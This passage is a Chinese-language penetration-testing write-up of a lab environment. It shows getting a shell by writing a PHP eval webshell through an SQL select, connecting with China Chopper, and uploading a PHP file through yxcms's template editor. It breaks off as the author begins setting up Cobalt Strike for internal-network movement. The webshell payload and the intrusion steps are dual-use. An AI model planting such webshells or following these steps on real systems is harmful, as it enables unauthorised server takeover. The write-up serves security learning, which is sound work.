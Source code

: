 写入webshell：

```sql
select '<?php eval($_POST[cmd]);?>'
```

![截图](2836b72189e949dd3cfade8f9a8ea789.png)

然后利用中国菜刀进行连接：

![截图](c0c3c96bd2e735f4de17550a88a2b511.png)

![截图](44ba47ea1e2ddb0758b3c7c1612fbb1c.png)

连接上了！！！

如果作为正常的攻防获得这个shell已经是可以了。但是我们作为学习者，当然要尝试看看有没有其他的点还可以打进去？我们看看那个yxcms。

#### 3）测试yxcms

首先登陆看看这个cms：

![截图](26c1694858b451880b94d51ae1c60e83.png)

这里首页看到有一个信息写了账号与密码！ 那么测试一下：

![截图](451aa09a4b21c004e060a05e32a96d86.png)

进入了后台后，经过我的摸索发现这里有个管理前台模板的地方可以直接写入一个php文件：

![截图](b02993ae1cc72475f4d73069241b5f13.png)

![截图](d7a1da55ddf203a15047a638e3939ab7.png)

至于这个默认前台模板文件的位置在哪呢。。。。我是通过源码找到的：

![截图](b41bc1771dc2c6b515d8a6b4d3ef14f8.png)

所以，这里我们就可以建立连接看看：

```markdown
http://192.168.31.51/yxcms/protected/apps/default/view/default/yuan-hack.php
```

![截图](17bed4c216e155d657f1c6e2795858c6.png)

成功！

（当然如果我们没有获取源码的话，可以直接在那个index_index.php写入即可！）

然后我还看了看这个cms的历史漏洞，发现也没啥可用的，我们就是用上面两个洞来getshell吧。

## 内网渗透

在上述过程中，我们已经getshell了，然后接下来我们将利用这个shell进行内网的渗透。首先，我们开启cs进行测试：

设置监听器并生成木马
